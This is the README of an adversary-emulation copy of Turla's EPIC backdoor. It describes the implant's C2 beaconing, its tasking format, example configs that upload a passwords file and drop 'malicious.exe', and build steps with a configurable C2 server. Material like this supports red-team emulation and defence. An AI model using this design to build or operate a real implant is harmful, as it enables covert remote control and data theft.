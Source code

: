 # EPIC Payload

## C2 Communications
The EPIC payload communicates with a hardcoded C2 server and port value via HTTP POST requests.<sup>[1](https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf)</sup>

### C2 Registration
The module will automatically perform initial discovery commands and output the results to a tmp
file in %TEMP% with a random string in its filename: `%TEMP%\~D<random>.tmp`.<sup>[1](https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf)</sup>
For scenario purposes, this file name has been hardcoded to `%TEMP%\~D723574.tmp`. The discovery
output is returned in the POST request body.

The POST request body is bzip2 compressed and then formatted in a Base64 encoded JSON string with
fields `UUID`, `type`, and `data` and are not made to any particular subfolder and are sent to the
URL path `/` of the C2 server site. The initial heartbeat is structured as follows:
```
{"UUID":"", "type":"command", "data":"<system discovery information>"}
```

EPIC will use the `type` field to indicate to the C2 server what type of data to receive based on
the task.

| Type       | Description |
| ---------- | ------------
| `command`  | Associated with the `exe` key - indicates the returned data contains command output |
| `upload`   | Associated with the `result` key - indicates the returned data contains a file      |
| `download` | Associated with payloads and the `name` key - indicates download was successful     |
| `delete`   | Associated with the `name` and `del_task` keys - indicates delete was successful    |

Upon registration with the C2 server, the module will receive a UUID to use in future
communications. The module will then continue to perform POST requests to the domain name of the
C2 server site to receive instructions and return result output.

### Execute Commands
Upon receiving instructions to execute commands, the module will execute the command, append
command output to `%TEMP%\~D723574.tmp` , and return the command output in the next C2 communication
cycle.<sup>[1](https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf)</sup>

## Execution
The Payload is intended to execute in the scenario as an embedded resource inside of EPIC's Reflective Guard, which is subsequently embedded in the Reflective Injector. Executing either the Guard DLL or Injector executable will result in the execution of the Payload DLL. To execute *just* the Payload, you can run it via `rundll32.exe` with the exported function `PayLoop`. See [here](../../#troubleshooting) if you encounter any issues.

### Tasks
The EPIC payload receives tasking from the C2 server as part of a successful beacon response.

To retrieve an instruction, the response should be base64 decoded and then bzip2 decompressed.

EPIC instructions are structured as followed:

| Instruction Section      | Byte Offset |
| ------------------------ | ----------- |
| Command ID               | 0           |
| Payload size (`p`)       | 4           |
| Payload                  | 8           |
| Configuration size       | 8 + `p`     |
| Configuration            | 8 + `p` + 4 |

Instructions with no payloads (EXE binaries) to download to the module will have a `Payload size`
of 0.

Configurations are INI structured files which contain some of the following fields:

| Name      | Description |
| --------- | ----------- |
| exe       | Execute a command, redirect its output to the file %TEMP%\~D%random%.tmp. The file is then uploaded during the next C&C communication cycle. |
| del_task  | Delete a file. |
| result    | Set the filename that is supposed to contain the results of command execution. Effectively, any existing file may be marked for upload by this command. |
| name      | Set the filename to be deleted or created (depends on other parameters) |

Example execute command configuration:

```
exe = whoami
```

Example upload file configuration:
```
result = C:\users\bob\passwords.txt
```

Example download file configuration (instruction should have associating payload data):
```
name = C:\System32\malicious.exe
```

Example delete file configuration:
```
del_task = \nname = C:\Windows\System32\malicious.exe
```

### Encryption

#### RSA encryption:
 - sha1 hash function
 - OAEP padding
 - 2048 bit key

```
openssl genrsa -out private.pem 2048
openssl rsa -in private.pem -outform PEM -pubout -out public.pem

openssl rsa -pubin -in public.pem -RSAPublicKey_out -out public_pkcs1.key -outform der
openssl rsa -in private.pem -traditional -out private_pkcs1.key -outform der
```
 
#### AES encryption:
  - 256 bit key
  - CBC mode of operation

## Build Instructions

**Notes about Bzip2**
The EPIC payload used a modified version of BZip2 compiled as a static library. Modifications to BZip2 primarily consisted of stripping debug statements throughout the source files. The modifed BZip2 static library has been removed from this repository, however vcpkg will install an unmodified BZip2 library upon building the payload that will function as needed.

If you are interested in downloading and modifying BZip2, you can find it [here](https://gitlab.com/bzip2/bzip2). CMake build instructions can be found [here](https://gitlab.com/bzip2/bzip2/-/blob/master/COMPILING.md#basic-release-build). Once compiled, `bz2_static.lib` should be copied to `payload\libs\lib\bzlib.lib` and the `bzlib.h` should be copied to `payload\libs\include\bzlib.h`. Create the relevant directories if they do not already exist. Please also make the necessary adjustments to the `CMakeLists.txt` and `vcpkg.json` files. <sup>[1](./vcpkg.json#L9) [2](./CMakeLists.txt#L27) [3](./CMakeLists.txt#L34) [4](./CMakeLists.txt#L64) [5](./CMakeLists.txt#L74)</sup>

**From Visual Studio Developer PowerShell:**

```
cd Resources\EPIC\payload
cmake -S . -B build -DUSE_HTTPS="<true/false>" -DC2_PORT="<port #>" -DC2_ADDRESS:STRING="<c2Address>" -DBINARY_NAME:STRING="<res/res2>"
cmake --build build --config Release --target ALL_BUILD -j 4 --
```

The compiled DLL and executable will be located in: `EPIC\payload\bin`

When built with the [build script](../#build-instructions), EPIC will use a default C2 server (address and port) and HTTP for communications. To compile with a different C2 server address and port or to use HTTPS communications, change the corresponding values in the line from above (`cmake -S . -B build -DUSE_HTTPS="<true/false>"...`). For example, to build the payload with C2 server `example.com`, port `1234`, and `HTTPS` selected, run:

```
cmake -S . -B build -DUSE_HTTPS="true" -DC2_PORT="1234" -DC2_ADDRESS:STRING="example.com" -DBINARY_NAME:STRING="res2"
```

Run the remaining command as written above. To note: the payload binary name `res` corresponds to HTTP and `res2` to HTTPS.


To remove symbols, you can use the `strip` command:
```
strip -s bin\test_res.exe
```

To verify, you can run `strings` or `objdump --syms bin\test_res.exe` - you should see an empty symbols table.

To run unit tests:

```
ctest --test-dir bin
```

## Cleanup Instructions

Remove the log file:
```
Remove-Item -Path "%TEMP%\~D723574.tmp";
```

Kill all Edge browsers potentially containing payload injected into it:
```
Get-Process msedge -ErrorAction SilentlyContinue | Stop-Process -Force;
```

## CTI References
1. https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf
2. https://securelist.com/the-epic-turla-operation/65545/
